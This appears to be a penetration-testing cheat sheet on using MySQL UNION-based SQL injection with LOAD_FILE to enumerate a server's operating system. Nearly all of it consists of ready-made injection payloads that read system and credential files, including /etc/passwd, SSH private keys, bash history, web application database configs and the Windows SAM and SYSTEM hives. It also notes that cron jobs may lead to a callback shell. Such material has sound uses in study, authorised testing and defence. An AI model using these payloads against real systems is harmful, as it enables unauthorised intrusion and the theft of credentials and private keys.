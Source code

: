 # 03 - OS Enumeration

## 3.1 - Conditions

1. The DB user must have **FILE** and **SELECT** privileges.
2. **Note:** Not all files are readable unless the current user is `root@<IP>` (e.g. `root@localhost`). You'll notice that you can't fetch SSH credentials which is normal due to security reasons.

## 3.2 - Basic Information

### 3.1.1 - Linux

- Enumerate hostname

```sql
' UNION SELECT NULL, LOAD_FILE('/etc/hostname')#
```

- Enumerate user accounts

```sql
' UNION SELECT NULL, LOAD_FILE('/etc/passwd')#
```

- Enumerate user groups

```sql
' UNION SELECT NULL, LOAD_FILE('/etc/group')#
```

- Local IPv4 address

```sql
' UNION SELECT NULL, LOAD_FILE('/etc/network/interfaces')#

' UNION SELECT NULL, LOAD_FILE('/etc/sysconfig/network')#

' UNION SELECT NULL, LOAD_FILE('/etc/networks')#
```

- DNS resolve and nameserver IPs

```sql
' UNION SELECT NULL, LOAD_FILE('/etc/resolv.conf')#

' UNION SELECT NULL, LOAD_FILE('/etc/hosts')#
```

- Environment variables may contain **sensitive information**. You never know that sometimes the sysadmins can be lazy sometimes.

```sql
' UNION SELECT NULL, LOAD_FILE('/etc/profile')#

' UNION SELECT NULL, LOAD_FILE('/etc/bash.bashrc')#

' UNION SELECT NULL, LOAD_FILE('/home/<username>/.bash_profile')#

' UNION SELECT NULL, LOAD_FILE('/root/.bash_profile')#

' UNION SELECT NULL, LOAD_FILE('/home/<username>/.bashrc')#

' UNION SELECT NULL, LOAD_FILE('/root/.bashrc')#
```

- Enumerate installed packages that will give you an idea of what services are installed.

```sql
' UNION SELECT NULL, LOAD_FILE('/var/log/dpkg.log')#

' UNION SELECT NULL, LOAD_FILE('/var/log/yum.log')#
```

- Enumerate kernel version

```sql
' UNION SELECT NULL, LOAD_FILE('/etc/lsb-release')#

' UNION SELECT NULL, LOAD_FILE('/etc/os-release')#

' UNION SELECT NULL, LOAD_FILE('/proc/version')#
```

### 3.1.2 - Windows

```sql
' UNION SELECT NULL, LOAD_FILE('c:/windows/win.ini')#

' UNION SELECT NULL, LOAD_FILE('c:/xampp/php/php.ini')#
```

- DNS resolve and nameserver IPs

```sql
' UNION SELECT NULL, LOAD_FILE('c:/WINDOWS/system32/drivers/etc/hosts')#
```

## 3.3 - Credentials

### 3.3.1 - Linux

- Retrieve SSH keys

```sql
' UNION SELECT NULL, LOAD_FILE('/home/<username>/.ssh/id_rsa')#

' UNION SELECT NULL, LOAD_FILE('/root/.ssh/id_rsa')#
```

- Retrieve database config file. You have to lookup of what web technology it's using such as, a **content management system (CMS)** like wordpress. Find the absolute path of the [[Pentesting Phases/Post Exploitation/Shell Is The Beginning/Privilege Escalation/Linux/Credentials#^bc9e6e|database config file]] after enumeration phase for the web root directory.

```sql
' UNION SELECT NULL, LOAD_FILE('/var/www/html/dvwa/config.php')#
```

- Retrieve history commands. You can find more in the [[Pentesting Phases/Post Exploitation/Shell Is The Beginning/Privilege Escalation/Linux/Credentials|privilege escalation credentials]] section.

```sql
' UNION SELECT NULL, LOAD_FILE('/home/<username>/.ssh/.bash_history')#

' UNION SELECT NULL, LOAD_FILE('/root/.ssh/.bash_history')#
```

### 3.3.2 - Windows

```sql
' UNION SELECT NULL, LOAD_FILE('C:/Windows/Repair/SAM')#

' UNION SELECT NULL, LOAD_FILE('C:/Windows/Repair/SYSTEM')#

' UNION SELECT NULL, LOAD_FILE('C:/Windows/System32/config/security')#
           
' UNION SELECT NULL, LOAD_FILE('C:/Windows/System32/config/system')#

' UNION SELECT NULL, LOAD_FILE('C:/Windows/System32/config/sam')#
```

## 3.4 - Privilege Escalation

### 3.4.1 - Linux

- CronJobs may contain backup files that is worth **harvesting the data**. Moreover, there is a possible attack vector to spawn a callback shell. Be on the lookout.

```sql
' UNION SELECT NULL, LOAD_FILE('/etc/crontab')#
```

## 3.5 - Config Files

### 3.5.1 - Linux

```sql
' UNION SELECT NULL, LOAD_FILE('/etc/ssh/sshd_config')#
```

## 3.6 - Hardware

- Check uptime

```sql
' UNION SELECT NULL, LOAD_FILE('/proc/uptime')#
```

- Enumerate mounted drives and network shares.

```sql
' UNION SELECT NULL, LOAD_FILE('/etc/fstab')#
```

- Enumerate CPU cores

```sql
' UNION SELECT NULL, LOAD_FILE('/proc/cpuinfo')#
```